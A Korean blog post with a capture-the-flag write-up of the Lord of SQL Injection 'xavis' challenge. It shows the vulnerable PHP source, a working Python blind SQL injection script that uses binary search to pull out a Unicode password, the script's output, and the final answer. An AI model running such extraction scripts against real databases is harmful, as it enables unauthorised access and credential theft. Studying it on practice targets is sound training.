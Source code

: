 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - xavis 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 이거 너무 오래 고민했는데 너무 허무하다.  

내가 마블 영화에서 젤 좋아하는게 아이언맨이고 그 중에서도 좋아하는게 자비스 캐릭터였는데, 이 문제때문에 싫어질라고 했다.  

근데 어찌어찌 풀었는데 나한테 화가난다 ㅋㅋㅋㅋ  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw=''
--------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

일단 소스코드는 간단하다.  

보면 `regex`랑 `like`은 사용을 못하도록 되어있는데, 그거 외에 `'`, `"`, `=`, `and`, `or`에 필터링이 없다.  

그래서 처음엔 그냥 `Blind SQL Injection`인줄 알고 이 전에 사용했었던 소스코드를 가져와 돌려보았다.  

그런데 `length`는 `12`라고 나오는데, 막상 `pw`는 `4번째` 문자부터만 찾았다.  

거기다 4번째 문자 ~ 12번째 문자까지가 싹 다 `0`이 나왔다.  

뭔가 이상하다 싶어서 `ord`랑 부등호를 사용해서 첫 번째 글자를 대충 손으로 찾아 보았다.  

그랬더니 값이 무려 `50000`대가 나왔다.  

`hex`로 값을 바꾸어 보니 `0xc6b0`이 나왔는데, 보니까 우리가 일반적으로 사용하는 아스키코드 범위 내의 문자가 아닌 것 같았다.  

그래서 원래 소스코드에서 `48 ~ 127`까지 비교하던 값을 `0x0 ~ 0xffff` 즉,  `0 ~ 65536`까지로 바꾸었다.  

첨엔 이렇게 소스코드 짜고 돌리려고 했는데, 생각해보니 최악의 경우 `0 ~ 65536`까지 `12번`을 비교해야 한다.  

뭔가 서버가 터질까봐 두려워서 횟수를 줄일 수 있는 방법을 찾다가 갑자기 학교 다닐때 배웠던 `이진 탐색`이 생각났다.  

그래서 이 `이진 탐색(Binary Search)` 알고리즘을 사용해서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

def testEqual(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) = " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def testBigger(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) < " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def searchPw(j, start, end):
        if start > end:
                return "None"

        mid = (start + end) / 2

        if testEqual(j, mid):
                return hex(mid)
        elif testBigger(j, mid):
                end = mid - 1
        else:
                start = mid + 1

        return searchPw(j, start, end)
               
flag = "0x"
length = 0

url = "http://los.rubiya.kr/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
        try:
                query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
                continue

        if 'Hello admin' in r.text:
                length = i
                break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
        flag += str(searchPw(j, 0, 65535))[2:]
        print "[+] Found ", str(j), "'s pw : ", flag

print "[+] Found password : ", flag
print "[+] End"
```

이 소스코드를 돌리면 결과는 아래와 같이 나온다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  12
[+] Find password
[+] Found  1 's pw :  0xc6b0
[+] Found  2 's pw :  0xc6b0c655
[+] Found  3 's pw :  0xc6b0c655ad73
[+] Found  4 's pw :  0xc6b0c655ad730
[+] Found  5 's pw :  0xc6b0c655ad7300
[+] Found  6 's pw :  0xc6b0c655ad73000
[+] Found  7 's pw :  0xc6b0c655ad730000
[+] Found  8 's pw :  0xc6b0c655ad7300000
[+] Found  9 's pw :  0xc6b0c655ad73000000
[+] Found  10 's pw :  0xc6b0c655ad730000000
[+] Found  11 's pw :  0xc6b0c655ad7300000000
[+] Found  12 's pw :  0xc6b0c655ad73000000000
[+] Found password :  0xc6b0c655ad73000000000
[+] End
```

4번째부터는 `0`이 나오는 걸 보니, 실제로는 3글자인 것 같았다.  

여기까진 어렵지 않게 왔는데, 문제는 지금부터였다.  

딱봐도 그냥 아스키코드는 아니고 확장 아스키코드인가 싶어서 인터넷을 뒤져서 `Converter`에 돌려 보았었다.  

막 다 이상한 문자만 출력 해 주길래 그게 맞는건줄 알고 계속 시도했다.  

근데 아무리 해도 안됨ㅋ  

매일매일 뭐가 잘못된건지 뒤져보는데 아무리봐도 모르겠어서 며칠동안 `내가 코드를 잘못짰나`, 아니면 `변환기를 잘못 사용했나` 해서 진짜 사이트 여기저기 돌아다니면서 `Converter`를 사용 했었다.  

그러다가 며칠만에 오늘... 이 [사이트](https://www.branah.com/unicode-converter)를 발견했다.  

여기 아래 부분에 보면 `Decimal`이라고, 10진수로 값을 입력하는 곳이 있다.  

그 칸에 나온 글자 3개의 `hex` 값을 `10진수`로 바꾸어 입력 해 주었다.  

```
508645077344403

OR

50864 50773 44403
```

그랬더니 맨 위 칸에 `우왕굳`이라고 나왔다.  

ㅋ  

결국 한글이었다.  

난 그것도 모르고 변환기가 이상한 문자를 주길래 걔인가 해서 며칠동안 걔만 시도했는데 아니었다.  

왜 그 사이트에서는 이상한 문자로 준건지를 모르겠다.  

`hex`로 입력했을 때랑 `decimal`로 입력했을 때랑 다른 값을 주는건가...?  

그럴리가..  

어쨌든 왜 제대로 변환이 안됬는지 원인은 모르겠지만, `우왕굳`을 입력 해 주니 며칠간의 삽질을 끝낼 수 있었다.  

```
?pw=우왕굳
```

```php
---------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw='우왕굳'
---------------------------------------------------------------------

Hello admin
XAVIS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`XAVIS Clear!!`